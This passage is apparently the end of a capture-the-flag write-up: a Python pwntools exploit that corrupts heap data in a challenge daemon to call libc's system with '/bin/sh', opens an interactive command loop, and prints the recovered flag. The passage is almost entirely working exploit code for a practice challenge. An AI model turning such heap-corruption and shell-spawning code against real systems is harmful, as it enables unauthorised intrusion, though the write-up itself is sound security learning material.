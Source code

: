 ```py
    0x0: b'/bin/sh\x00',
    0x48: size + 8 + libc.symbols['system'],
})
daemon.edit_deet(8)
daemon.sice(payload + b'\n')
daemon.remove_deet(8)
daemon.add_deet(0x48)
daemon.sync()
daemon.add_deet(size)
daemon.remove_deet(8)
daemon.sync()

while True:
    cmd = input('$ ')
    if cmd.strip() == 'exit':
        break
    daemon.sice(cmd.encode() + b'\n')
    io.recvuntil(b'> ')
    print(io.recv(timeout=3).decode('utf-8', 'backslashreplace'), end='')
    io.unrecv(b'> ')

io.interactive()
```

## Flag

```
dice{i_hate_race_conditions_i_hate_race_conditions}
```
